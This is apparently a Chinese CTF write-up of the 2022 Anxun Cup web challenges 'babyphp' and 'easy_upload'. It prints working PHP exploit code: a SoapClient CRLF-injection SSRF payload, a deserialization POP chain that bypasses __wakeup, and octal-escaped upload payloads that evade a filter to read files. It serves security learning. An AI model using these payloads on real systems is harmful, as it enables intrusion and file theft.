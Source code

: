 ```yaml
---
title: 2022 安洵杯
date: 2023/5/31 19:48:25
categories:
- CTF
tags:
- 安洵杯
---
```




# web

## babyphp

#### 知识点

与buu--bestphp‘s revenge差不多

- session+反序列化
- 原生类SSRF+文件操作

#### 思路

第一步，设置php的session解析器，使得下一次会话时session中保存的是构造好的SoapClient对象。

SoapClient对象

```php
<?php
# $target = "http://127.0.0.1/flag.php?a=GlobIterator&b=/f*"; 查找flag文件名
$target = "http://127.0.0.1/flag.php?a=SplFileObject&b=/f1111llllllaagg";
$post_string = '';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=123456789' # 随便给一个
);
$b = new SoapClient(null,
array('location' => $target,
	  'user_agent'=>'khaz^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,
        'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
echo "|".urlencode($aaa);
```

![image-20221128162813314](../images/image-20221128162813314-1686150400485.png)



第二步，反序列化触发SoapClient的call方法，从而导致SSRF，从而将flag保存到SSRF请求对应的session中。

pop：

B::destruct   →    C::toString   →   A::invoke    →   C::uwant

```php
<?php
class A
{
    public $a;
    public $b;

    public function __wakeup()
    {
        $this->a = "babyhacker";
    }

    public function __invoke()
    {
        echo "触发invoke\n";
        echo $a."\n";
        if (isset($this->a) && $this->a == md5($this->a)) {
            $this->b->uwant();
        }
    }
}

class B
{
    public $a;
    public $b;
    public $k;

    function __destruct()
    {
        echo "触发destruct\n";
        $this->b = $this->k;
        die($this->a);
    }
}

class C
{
    public $a='getflag';
    public $c;

    public function __toString()
    {
        echo "触发toString\n";
        $cc = $this->c;
        return $cc();
    }
    public function uwant()
    {
        echo "触发uwant\n";
        if ($this->a == "phpinfo") {
            phpinfo();
        } else {
            call_user_func(array(reset($_SESSION), $this->a));
        }
    }
    }

$a = new A();
$b = new B();
$c = new C();

$c2 =new C();

$b->a = $c;
$c->c = $a;
$a->a = "0e215962017";
$a->b = $c2;

$result = serialize($b);
// echo $result;
$x=str_replace('O:1:"A":2:', 'O:1:"A":3:',$result);//绕过__wakeup()
echo urlencode($x);
```

![image-20221128163059684](../images/image-20221128163059684-1686150400486.png)

这里的500是因为C::tostring()的报错，而不是反序列化出错。

<img src="E:\typora img\image-20221128163329919.png" alt="image-20221128163329919" style="zoom:67%;" />



第三步，修改cookie中的PHPSESSIONID为SSRF请求的PHPSESSIONID，读取到flag。

![image-20221128163549644](../images/image-20221128163549644-1686150400486.png)

查看flag文件名的结果

![image-20221128163822875](../images/image-20221128163822875-1686150400486.png)



## easy_upload--复现

dirsearch扫描没有发现其他页面。

只有一个文件上传功能点

- 先上传一句话木马，发现有过滤

![image-20221128164147870](../images/image-20221128164147870-1686150400486.png)

- 尝试图片+.htaceess

![image-20221128164425319](../images/image-20221128164425319-1686150400486.png)

发现只接受.php文件，那么就是要绕过文件内容过滤。



经测试发现

```php
$ ` * 还有很多函数被过滤
```

以下可以

```php
<?php echo 1;?>
```

![image-20221128164736609](../images/image-20221128164736609-1686150400486.png)

```php
<?php phpinfo();?>
```

![image-20221128164852425](../images/image-20221128164852425-1686150400487.png)

在phpinfo中可以发现`disable_function`禁用了几乎所有的函数。

<img src="E:\typora img\image-20221128164951239.png" alt="image-20221128164951239" style="zoom:67%;" />

但是没有禁用`file_get_contents`这个读取文件的函数。所以只要能找到flag的路径就可以了。

网上的师傅做法是利用原生类来找到路径，利用php字符串解析来绕过字符过滤。

#### payload

查找路径

```php
# \147\154\157\142\72\57\57\57\146\52 → glob:///f*
<?php echo new DirectoryIterator("\147\154\157\142\72\57\57\57\146\52");?>
```

![image-20221128165717142](../images/image-20221128165717142-1686150400487.png)

读取flag

```php
# \146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163 → file_get_contents
<?php echo "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("/fl1111111111ag");?>
```

![image-20221128165926537](../images/image-20221128165926537-1686150400487.png)





# misc

## flybenben--复现

CE修改

![QQ截图20221128160736](../images/QQ截图20221128160736-1686150400487.jpg)